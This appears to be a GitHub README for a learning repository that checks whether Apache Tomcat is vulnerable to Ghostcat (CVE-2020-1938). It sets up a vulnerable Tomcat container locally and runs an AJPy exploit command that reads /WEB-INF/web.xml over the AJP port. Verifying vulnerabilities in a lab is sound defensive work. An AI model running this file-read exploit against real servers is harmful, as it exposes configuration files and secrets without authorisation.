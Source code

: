 # Ghostcat verification (CVE-2020-1938)

## Summary

A new exploit called Ghostcat has been found [CVE-2020-1938], see the articles on [snyk] and [tenable] for details and analysis of the exploit itself.

In my case, I wanted to verify which services are exploitable and if so how does it manifest itself.

## Prerequsites

- docker
- python
- git

## Demonstration

```bash
git clone git@github.com:shaunmclernon/ghostcat-verification.git
cd ghostcat-verification
cd AJPy
docker run -d -p 8080:8080 -p 8009:8009 tomcat:8.5.32
python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 127.0.0.1
```

If it returns the web.xml then this version of Tomcat is vulnerable to the exploit.

## Disclaimer

I am not a security professional and this repo was built for my learning purposes, it is not intended to be used for malicious purposes.

[CVE-2020-1938]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938
[snyk]: https://snyk.io/blog/ghostcat-breach-affects-all-tomcat-versions/
[tenable]: https://www.tenable.com/blog/cve-2020-1938-ghostcat-apache-tomcat-ajp-file-readinclusion-vulnerability-cnvd-2020-10487